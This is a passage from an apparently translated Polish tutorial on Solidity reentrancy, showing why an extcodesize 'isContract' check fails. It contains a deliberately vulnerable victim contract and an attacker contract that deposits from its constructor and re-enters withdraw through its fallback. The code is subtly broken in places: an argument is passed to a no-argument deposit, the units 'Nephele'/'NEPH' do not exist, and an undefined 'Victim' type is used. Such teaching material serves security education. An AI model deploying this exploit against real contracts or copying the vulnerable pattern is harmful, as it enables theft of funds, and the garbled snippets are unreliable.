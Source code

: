 Można rozważyć pokonanie wielobieżności po prostu uniemożliwiając jakimkolwiek inteligentnym kontraktom interakcję z Twoim kodem. Wyszukujesz stackoverflow, znajdujesz ten fragment kodu z mnóstwem głosów za:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Wydaje się to mieć sens: kontrakty mają kod, jeśli wywołujący ma jakiś kod, nie zezwalaj na wpłatę. Dodajmy to:

```solidity
// TEN KONTRAKT JEST CELOWO PODATNY, NIE KOPIOWAĆ
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NEW LINE
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Teraz, aby zdeponować NEPH, nie wolno Ci mieć kodu inteligentnego kontraktu pod swoim adresem. Można to jednak łatwo pokonać za pomocą następującego kontraktu atakującego:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 Nephele); // <- New line
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```
